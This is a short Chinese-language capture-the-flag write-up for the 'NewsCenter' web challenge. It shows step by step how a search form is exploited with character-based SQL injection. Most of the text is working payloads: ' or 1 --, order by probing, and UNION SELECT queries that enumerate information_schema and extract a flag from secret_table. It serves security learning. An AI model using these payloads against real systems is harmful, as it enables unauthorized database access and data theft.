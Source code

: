 **题名：**NewsCenter
**地址：**攻防世界web高手进阶区第六题

# 解法
这题有一个搜索框。搜索框经过了post表单，得到了php的处理。
表单名为search。
然后会显示内容。
这应该是一个sql注入题。
输入 wo'报错，是字符型注入。
输入wo' or 1 -- 显示所有文章。
再简化为 ' or 1 --
测试到' order by 3 --，字段数为3。
## ' union select 1,2,database() --  
得到当前database是news
##  ' union select 1,233,schema_name from information_schema.schemata -- 
只有两个数据库。 
##  ' union select 1,233,table_name from information_schema.tables where table_schema = database() -- 或 ' union select 1,233,table_name from information_schema.tables where table_schema = "news"; -- 
得知了一个secret_table的表
##  ' union select 1,233,column_name from information_schema.columns where table_name = "secret_table" -- 
然后有一个fl4g字段。
##   ' union select 1,id,fl4g from news.secret_table -- 
得到flag！QCTF{sq1_inJec7ion_ezzz}。

本题属于几乎没有过滤的SQL注入题。
